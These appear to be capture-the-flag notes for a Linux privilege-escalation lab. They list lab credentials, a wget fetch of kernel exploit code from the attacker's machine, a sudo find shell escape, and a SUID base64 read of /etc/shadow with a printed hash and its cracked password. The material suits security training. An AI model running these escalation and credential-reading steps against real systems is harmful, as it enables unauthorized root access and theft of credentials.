 ### target machine:
```
cd /home/ubuntu/sharedfolder
./file
cat /home/matt/flag7.txt
```

## CAPSTONE CHALLENGE 
**ENUMERATION:**
- username: leonard
- password: Penny123

- home folder: leonard, missy, rootflag
- kernel: Linux 3.10.0-1160.el7.x86_64

### 1. KERNEL EXPLOIT
**LEONARD**
```
cat /proc/version
(search for exploit for Linux version 3.10.0-1160.el7.x86_64)
(found CVE: 2018-14634)
//machine:
python3 -m http.server 9000
//target machine:
wget http://machineip:9000/45516.c
gcc 45516.c -static -o code
[experiencing error with the c code]
```

### 2. SUDO
**LEONARD**
```
sudo -l
[leonard cant run sudo]
```
**MISSY**
```
sudo -l
(no env_keep+=LD_PRELOAD)
(cant do sudo less /etc/shadow)
(cant do sudo sudo /bin/sh)
(NOPASSWD: /usr/bin/find)
sudo find . -exec /bin/sh \; -quit
cd /home/rootflag
cat flag2.txt
```

### 3. SUID
**LEONARD**
```
find / -type f -perm -04000 -ls 2>/dev/null
(GTFOBins: /usr/bin/base64)
LFILE=/etc/shadow
base64 "$LFILE" | base64 --decode
(crack missy:$6$BjOlWE21$HwuDvV1iSiySCNpA3Z9LxkxQEqUAdZvObTxJxMoCp/9zRVCi6/zrlMlAQPAxfwaD2JCUypk4HaNzI3rPVqKHb/:18785:0:99999:7:::)
su missy
Password1
cat /home/missy/Documents/flag1.txt
```

